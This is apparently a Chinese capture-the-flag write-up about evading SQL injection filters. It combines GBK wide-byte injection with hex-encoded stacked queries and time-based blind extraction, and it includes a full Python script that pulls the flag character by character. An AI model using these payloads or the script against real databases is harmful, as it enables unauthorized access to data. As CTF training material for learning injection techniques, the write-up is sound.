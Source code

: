 发现正常的注入手段都被过滤了。。<br>
想到可以利用通过转换十六进制来绕过这些限制。<br>
由于页面没有任何回显的地方，所以可以考虑延时注入。<br>`select sleep(1)`的十六进制表示为：`0x73656C65637420736C656570283129`

```
$db-&gt;query("set names gbk");
```

看到这里设置的字符集为`gbk`,首先想到的就是宽字节注入。

综上，测试发现：

```
id=1%df%27%20;set%20@x=0x73656C65637420736C656570283129;prepare%20a%20from%20@x;execute%20a;
```

这样能够得到延时的效果

脚本：

```
import requests 
import re
import time
import sys

reload(sys)
sys.setdefaultencoding("utf8")


def str_to_hex(s):
    return ''.join([hex(ord(c)).replace('0x', '') for c in s])

def hex_to_str(s):
    return ''.join([chr(i) for i in [int(b, 16) for b in s.split(' ')]])





url = "http://c8a6cd9388a04664b7695f43a2489372bae05b16de4e4793.changame.ichunqiu.com//?id=1%df%27%20;set%20@x=0x"
flag = ""
for j in range(1,100):
    print j
    for i in range(32,128):
        # sql = 'select if((ascii(substr(database(),'+str(j)+',1))&gt;'+str(i)+'),1,sleep(100))'
        #payload="select if((ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),"+str(j)+",1))="+str(i)+"),sleep(4),1)"
                #print(payload)
                #payload="select if((ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='table1'),"+str(j)+",1))="+str(i)+"),sleep(4),1)"
        sql = "select if((ascii(substr((select group_concat(fllllll4g) from table1),"+str(j)+",1))="+str(i)+"),sleep(4),1)"
        # print sql
        hex_sql = str_to_hex(sql)
        url_1 = url+hex_sql+';prepare%20a%20from%20@x;execute%20a;'
        # print url_1
        # exit()
        try:
            res = requests.get(url_1,timeout=4)
        except requests.exceptions.ReadTimeout:
            flag +=chr(i)
            print flag
            break
```
